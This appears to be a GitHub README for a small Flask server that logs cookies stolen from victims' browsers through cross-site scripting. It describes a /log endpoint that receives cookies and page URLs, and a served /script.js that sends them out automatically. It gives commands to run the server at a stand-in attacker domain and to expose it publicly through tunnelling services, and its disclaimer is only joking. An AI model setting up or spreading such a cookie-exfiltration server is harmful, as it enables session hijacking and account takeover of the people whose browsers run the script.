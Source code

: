 HTTP server to log users' cookies when exploiting XSS.

To log cookies, simply send GET request to `/log?data={cookies}&url={url}`. Cookies will be logged to stdout and stored in `cookies.log` file. 

Script for automatic logging is served at `/script.js`. Note that this script is making an XHR, hence to log cookies on HTTPS site this server should be also HTTPS-hosted. Also, HttpOnly cookies obviously will not be logged because javascript can't access them.

## Running

Set SERVER_URL to public (preferably https) url of a server you're running this script on. If you don't have one, see the next section.  

```
$ export SERVER_URL=https://totally-innocent-url.hack
$ flask --app 'main:create_app("'$SERVER_URL'")' run --host 0.0.0.0 --port 4444
```

or with gunicorn (better for production):

```
$ export SERVER_URL=https://totally-innocent-url.hack
$ gunicorn 'main:create_app("'$SERVER_URL'")' -b 0.0.0.0:4444
```

## Getting public url for free

You can use [Tunnelmole](https://tunnelmole.com/), [Telebit](https://telebit.cloud/), [ngrok](https://ngrok.com/) or any other alternative of your choice. It's simple as:

```
$ tmole 4444
http://s3rd.tunnelmole.net
https://s3rd.tunnelmole.net
```

Then set `SERVER_URL` in the previous section to the received https url and run the server.

## Disclaimer

For educational purposes only and all that jazz.

And I didn't use this for anything nasty, I promise :)